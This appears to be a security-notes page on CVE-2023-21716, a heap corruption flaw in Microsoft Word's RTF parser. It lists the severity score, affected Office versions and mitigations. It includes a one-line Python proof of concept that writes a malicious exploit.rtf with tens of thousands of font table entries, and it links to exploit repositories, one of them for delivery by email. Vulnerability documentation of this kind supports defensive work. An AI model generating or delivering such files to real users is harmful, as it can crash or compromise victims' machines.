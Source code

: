 # CVE-2023-21716 (Microsoft Word RCE)

{% embed url="https://github.com/gyaansastra/CVE-2023-21716" %}

> **CNA: Microsoft Corporation** (more like telemetry corporation)&#x20;
>
> **Base Score:** <mark style="color:red;">**9.8 CRITICAL**</mark>&#x20;
>
> **Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&#x20;

### Brief

> It is a **heap corruption vulnerability** in Microsoft Word’s RTF parser that, if triggered, allows attackers to achieve remote code execution with the privileges of the victim.&#x20;
>
> The flaw **does not require prior authentication**: attackers can simply send a booby-trapped RTF file to the victim(s) via **email**.

#### Details

{% embed url="https://github.com/gyaansastra/CVE-2023-21716#vulnerability-details" %}

#### Affected products

* Microsoft Office 365 (Insider Preview - 2211 Build 15831.20122 CTR)
* Microsoft Office 2016 (Including Insider Slow - 1704 Build 8067.2032 CTR)
* Microsoft Office 2013
* Microsoft Office 2010
* Microsoft Office 2007
* Older versions may also be affected but were not tested. Furthermore, the technical details of this vulnerability have evolved over the years.

#### Mitigations

{% hint style="success" %}
**Microsoft Office 2010 and later** use **Protected View** to limit damage caused by malicious documents procured from untrusted sources. Protected View is in effect when this vulnerability manifests and thus an additional sandbox escape vulnerability would be required to gain full privileges.

:exclamation: Removing the file association for the RTF extension is ineffective because using a DOC extension will still reach the vulnerable code.
{% endhint %}

### PoC

```python
open("exploit.rtf", "wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rt''lch no crash??}\n}}\n").encode('utf-8'))
```

#### With email sent

{% embed url="https://github.com/hv0l/CVE-2023-21716_exploit" %}
